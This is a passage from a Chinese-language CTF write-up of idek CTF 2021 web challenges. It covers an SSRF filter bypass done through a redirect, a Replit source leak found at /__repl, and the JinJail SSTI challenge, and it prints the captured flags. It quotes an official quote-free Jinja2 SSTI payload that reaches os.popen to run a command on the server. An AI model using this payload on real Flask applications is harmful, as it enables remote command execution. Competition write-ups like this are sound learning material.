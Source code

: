 ![image-20211213132943376](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211213132943376.png)

`idek{d1ff3r3nc3_ch3ck3r_d3ce1v3d_bY_d1ff3r3nc3s}`

使用重定向的方式，避开ssrfFilter的过滤，学到了

## Sourceless Guessy Web

> "If it has a website its web"
>
> https://sgw.chal.imaginaryctf.org/

首页上没东西，就两行字

![image-20211212015231115](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211212015231115.png)

而且也不能爆破，尝试了经典路由都没什么反应，看审查元素

![image-20211213135213779](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211213135213779.png)

抓包会看到响应头一直带着`report-uri="https://sentry.repl.it/api/10/security/?sentry_key=xxxx`这样的东西，访问`https://sgw.chal.imaginaryctf.org/__repl`就会看到源码了

![image-20211213234458242](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211213234458242.png)

`idek{why_do_people_keep_st0ring_secrets_0n_replit_w1th0ut_3nv}`

## JinJail&Baby JinJail

> I've looked all over the internet for payloads or techniques to bypass my SSTI filter, but none would work! Surely this is secure?
>
> http://jinjail.chal.idek.team  |  https://ctf.idek.team/handouts/web/JinJail/jinjail-dist.zip

> Jinjail was a bit harder than anticipated, so here's a baby version without the character limit to familiarize yourself with some jinja2 SSTI techniques!
>
> http://baby-jinjail.chal.idek.team  |  https://ctf.idek.team/handouts/web/BabyJinJail/baby-jinjail-dist.zip

![image-20211213165127940](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211213165127940.png)

（这个图里注释有一些不对的地方 懒得改了

构造卡到我的地方是禁用了单双引号，一般情况下过滤引号可以使用`chr()`来表示字符，但是这个方法有需要用到数字；我们现在需要的是一个纯字母的SSTI payload

```python
# official payload
{{lipsum[(dict(__globals__=x)|list)[False]][(dict(os=x)|list)[False]][(dict(popen=x)|list)[False]]([(dict(cat=x)|list)[False]|center,(dict(galf=x)|list)[False]|reverse]|join)[(dict(daer=x)|list)[False]|reverse]()}}
```

`lipsum`跟`url_for`, `get_flashed_messages`一样是一个在flask中的内置函数，比如`url_for`可以这样用
